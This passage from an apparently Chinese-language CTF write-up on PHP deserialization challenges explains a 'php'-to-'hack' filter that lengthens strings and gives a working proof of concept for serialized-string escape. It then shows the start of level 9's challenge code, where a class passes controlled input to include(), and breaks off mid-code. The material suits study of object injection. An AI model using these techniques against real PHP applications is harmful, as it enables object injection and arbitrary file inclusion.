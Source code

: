 ```php
?>
```

这题有个过滤函数，会将我们传入的参数进行过滤，过滤规则是将flag、php 替换为hack，对于flag没有问题，而对于php在进行过滤后变成hack，长度有三个字节变成了四个字节，字节变长了。于是会造成反序列化失败，但是正是由于多了个字符，可以利用这一点进行字符串逃逸，下面是poc 的构造：

```php
<?php
highlight_file(__FILE__);
function filter($name){
    $safe=array("flag","php");
    $name=str_replace($safe,"hack",$name);
    return $name;
}
class test{
    var $user;
    var $pass='daydream';
    function __construct($user){
        $this->user=$user;
    }
}
$a=new test('phpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphp";s:4:"pass";s:8:"escaping";}');
//$a=new test('1');  O:4:"test":2:{s:4:"user";s:1:"1";s:4:"pass";s:8:"daydream";}
//逃逸内容：
//";s:4:"pass";s:8:"escaping";}
//计算需要链：
//phpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphp";s:4:"pass";s:8:"escaping";}
$param=serialize($a);
echo $param,"\n";

$profile=unserialize(filter($param));
echo $profile->pass,"\n";
if ($profile->pass=='escaping'){
    echo 1;
}
// O:4:"test":2:{s:4:"user";s:116:"phpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphp";s:4:"pass";s:8:"escaping";}";s:4:"pass";s:8:"daydream";}
?>
 
```



#### 9. 第九关

第9关代码如下：

```php
<?php
  //flag is in flag.php
  highlight_file(__FILE__);
class Modifier {
  private $var;
  public function append($value)
  {
    include($value);
    echo $flag;
  }
  public function __invoke(){
    $this->append($this->var);
  }
}

class Show{
```
